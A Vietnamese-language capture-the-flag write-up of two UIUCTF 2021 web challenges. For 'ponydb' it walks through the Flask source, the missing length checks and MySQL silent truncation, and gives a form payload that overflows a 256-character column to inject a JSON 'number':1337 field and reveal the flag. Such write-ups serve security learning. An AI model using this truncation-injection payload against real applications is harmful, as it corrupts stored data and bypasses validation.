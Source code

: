 # ================= UIUCTF 2021 =================

### wasmbaby - 50pts  
  
Challenge khá đơn giản vì là warmup, chỉ cần `Ctrl + Shift + I` để ` inspect element` vào phần `Source` để xem source của trang, trong đó có file `index.wasm` và flag nằm ở dưới cùng của file đó.  
  
![img](./imgs/1.png)  
  
### ponydb - 112pts  
  
[Source code](https://uiuc.tf/files/727b10ed82902f914153fd781e8711dd/handout.tar.gz?token=eyJ1c2VyX2lkIjoxMDcyLCJ0ZWFtX2lkIjoxNTUsImZpbGVfaWQiOjQ4fQ.YQe3Ng.TjZr4KWts3_vs_a2z9WNw7zmqcc)  
   
File `templates/ponies.html` có nội dung như sau   
```html
<!-- ponies.html -->
...
<body>
		{% if get_flashed_messages() %}<p>Error: {{ get_flashed_messages()[0] }}</p>{% endif %}
		<h1>Ponies</h1>
		{% for pony in ponies %}
		<h2>{{ pony["name"] }}</h2>
		<img height=200 src="{{ pony['image'] }}">
		{% for favorite in pony['favorites'] %}
		<p>Favorite {{ favorite }}: {{ pony['favorites'][favorite] }}</p>
		{% if favorite == 'number' and pony['favorites'][favorite] == 1337 %}
		<p>Favorite flag: {{ flag }}</p>
		{% endif %}
		{% endfor %}
		<p>{{ pony["bio"] }}</p>
		{% endfor %}
		<h1>Add a pony!</h1>
...
```  
ta dễ dàng thấy để có được `flag` thì phải pass được điều kiện ` if favorite == 'number' and pony['favorites'][favorite] == 1337`, lúc này phải phụ thuộc vào `favorites` cho nên tới đây ta audit tiếp xem `favorites` là cái chi???  
  
Từ `ponydb.py` ta thấy dòng code:  
```python3  
...  
cur.execute(f"SELECT * FROM `ponies` WHERE session='{session['id']}'")  
for (name, bio, image, data, _) in cur:
		ponies.append({"name": name, "bio": bio, "image": image, "favorites": json.loads(data)})
...
```  
thì ta nhận ra là `favorites` là một object được load từ chuỗi json nào đó được lấy ra từ database. Nhưng để dễ hiểu hơn thì mình tiến hành debug ở local từ source mà tác giả đã cung cấp.  
![img](./imgs/2.png)  
  
Cột `favorites` là một chuỗi json được tạo ra do lấy từ input của user khi post lên server.  
Và một điều bất thường trong source code `ponydb.py` ở enpoint `/pony` sau khi audit là:  
  
```python3  
...
@app.route('/pony', methods=['POST'])
def add():
	error = None

	name = request.form['name']
	if "'" in name: error = 'Name may not contain single quote'
	if len(name) > 64: error = 'Name too long'

	bio = request.form['bio']
	if "'" in bio: error = 'Bio may not contain single quote'
	if len(bio) > 256: error = 'Bio too long'

	image = request.form['image']
	if "'" in image: error = 'Image URL may not contain single quote'
	if len(image) > 256: error = 'Image URL too long'

	favorite_key = request.form['favorite_key']
	if "'" in favorite_key: error = 'Custom favorite name may not contain single quote'
	if len(favorite_key) > 64: 'Custom favorite name too long'      # Chổ này chỉ check mà không gán error

	favorite_value = request.form['favorite_value']
	if "'" in favorite_value: error = 'Custom favorite may not contain single quote'
	if len(favorite_value) > 64: 'Custom favorite too long'     # Chổ này chỉ check cũng chỉ check cho vui :))))

	word = request.form['word']
	if "'" in word: error = 'Word may not contain single quote'
	if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'

	number = int(request.form['number'])
	if number >= 100: error = "Ponies can't count that high"
	if number < 0: error = "Ponies can't count that low"

	if error: flash(error)
...
```
Không như các param `word, name, bio, image`, 2 param `favorite_key và favorite_value` check length của input chỉ để cho vui mà không gán giá trị lại cho biến `error` khi không thoã điều kiện :))).  
  
Và một điều khá quan trọng nữa ở chổ  
```python3  
config = {
	'host': 'localhost',
	'user': 'root',
	'password': 'REDACTED',
	'database': 'ponydb',
	'sql_mode': 'NO_BACKSLASH_ESCAPES'
}
```
tác giả đã cố tình `override sql_mode` thành `NO_BACKSLASH_ESCAPES` để disable `STRICT_TRANS_TABLES` theo mặc định, nghĩa là khi `chuỗi dữ liệu quá dài` so với `độ dài mặc định ` đã được định nghĩa cho column của table nào đó thay vì trả ra error thì nó sẽ bị `truncate` đi.  
  
Ngoài ra, ta còn biết được cấu trúc của bảng  
```python3
...
try: cursor.execute('CREATE TABLE `ponies` (`name` varchar(64), `bio` varchar(256), '
                    '`image` varchar(256), `favorites` varchar(256), `session` varchar(64))')
...                  
```              
Độ dài chuỗi của cột `favorites` là `256`, chain các điều kiện ở trên lại thì ta có ý tưởng để giải bài này là input một chuỗi ở param `favorite_value` (hoặc có thể dùng param `favorite_key`) có độ dài vượt quá 256 để bị truncate, đồng thời vì ký tự `"` không bị filter, nên ta có thể chèn lại giá trị cho `number` thành `1337` để lấy flag.  
  
Payload:
```txt
name=nhienit&image=imaget&favorite_key=color&favorite_value=redaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaa","number":1337}&word=antidisestablishmentarianis&number=11&bio=123
```  
![img](./imgs/3.png)  
  
Và flag hiện ra XD  
  
![img](./imgs/4.png)    
  
Flag: `uiuctf{My_l33tle_p0ny_5fb234}`  
